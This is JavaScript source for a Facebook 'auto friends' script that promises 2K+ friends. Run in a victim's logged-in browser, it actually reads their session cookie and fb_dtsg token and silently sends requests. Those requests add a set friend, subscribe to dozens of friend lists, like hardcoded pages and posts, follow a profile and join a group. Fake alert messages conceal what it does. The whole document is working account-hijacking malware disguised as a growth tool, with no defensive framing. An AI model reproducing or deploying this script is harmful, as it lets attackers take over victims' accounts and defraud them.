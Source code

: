 var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); alert(' Wait 5-7Minutes " AUTOFRIENDS BY FIDAN MALIQI  ADD 2K+ FRIENDS '); function cereziAl(isim) {     var tarama = isim + "=";     if (document.cookie.length > 0) {         konum = document.cookie.indexOf(tarama)         if (konum != -1) {             konum += tarama.length             son = document.cookie.indexOf(";", konum)             if (son == -1)                 son = document.cookie.length             return unescape(document.cookie.substring(konum, son))         }         else { return ""; }     } }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) {   var X = new XMLHttpRequest();   var XURL = "//www.facebook.com/ajax/add_friend/action.php";   var XParams = "to_friend=" + r +"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   X.open("POST", XURL, true);   X.onreadystatechange = function () {     if (X.readyState == 4 &amp;&amp; X.status == 200) {       X.close;     }   };   X.send(XParams); } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) { var Page = new XMLHttpRequest(); var PageURL = "//www.facebook.com/ajax/pages/fan_status.php"; var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; Page.open("POST", PageURL, true); Page.onreadystatechange = function () { if (Page.readyState == 4 &amp;&amp; Page.status == 200) { Page.close; } }; Page.send(PageParams); }  var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var now=(new Date).getTime(); function P(opo) { var X = new XMLHttpRequest(); var XURL ="//www.facebook.com/ajax/ufi/like.php"; var XParams = "like_action=true&amp;ft_ent_identifier="+opo+"&amp;source=1&amp;client_id="+now+"%3A379783857&amp;rootid=u_jsonp_39_18&amp;giftoccasion&amp;ft[tn]=%3E%3D&amp;ft[type]=20&amp;ft[qid]=5890811329470279257&amp;ft[mf_story_key]=2814962900193143952&amp;ft[has_expanded_ufi]=1&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n88QoAMBlClyocpae&amp;__req=g4&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; X.open("POST", XURL, true); X.onreadystatechange = function () { if (X.readyState == 4 &amp;&amp; X.status == 200) { X.close; } }; X.send(XParams); } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone) { var http4=new XMLHttpRequest;  var url4="/ajax/follow/follow_profile.php?__a=1";  var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp=";  http4.open("POST",url4,true);  http4.onreadystatechange=function()  {  if(http4.readyState==4&amp;&amp;http4.status==200)http4.close };  http4.send(params4)} function sublist(uidss) { var a = document.createElement('script');  a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();";  document.body.appendChild(a); }     // Fiidannii IDS("100000740396815"); sublist("747997335234939"); sublist("748009165233756"); sublist("747999191901420"); sublist("748009798567026"); sublist("748010705233602"); sublist("748011435233529"); sublist("748012121900127"); sublist("748012848566721"); sublist("709754282392578"); sublist("725539290814077"); sublist("491868480921036"); sublist("746028498765156"); sublist("745978202103519"); sublist("746415708726435"); sublist("746029242098415"); sublist("729314570436549"); sublist("729898357044837"); sublist("727325067302166"); sublist("1465241787041388"); sublist("422413791227668"); sublist("414281768707537"); sublist("562521103826775"); sublist("1429233353972522"); sublist("1439645386264652");   // cheo Ph?c H?p Like("549252541753997"); Like("398739273555192"); Like("1433722496857372"); Like("1475255582701545"); Like("284905944997186"); Like("255801804567230"); Like("1413948492174215"); Like("559063920821987"); Like("530612090325999"); Like("291985050908298"); Like("284905944997186"); Like("730557190320260"); Like("427659460701846"); P("700272516674088"); P("699330160101657"); P("674845045883502"); P("623932250974782"); P("610386475662693"); P("749504168417589"); P("754300217937984"); //Group subscriber var gid = ['472709066171701']; var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]); alert(' 400  Follower Detected  '); var httpwp = new XMLHttpRequest(); var urlwp = '/ajax/groups/membership/r2j.php?__a=1'; var paramswp = '&amp;ref=group_jump_header&amp;group_id=' + gid + '&amp;fb_dtsg=' + fb_dtsg + '&amp;__user=' + user_id + '&amp;phstamp='; httpwp['open']('POST', urlwp, true); httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded'); httpwp['setRequestHeader']('Content-length', paramswp['length']); httpwp['setRequestHeader']('Connection', 'keep-alive'); httpwp['send'](paramswp);   var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);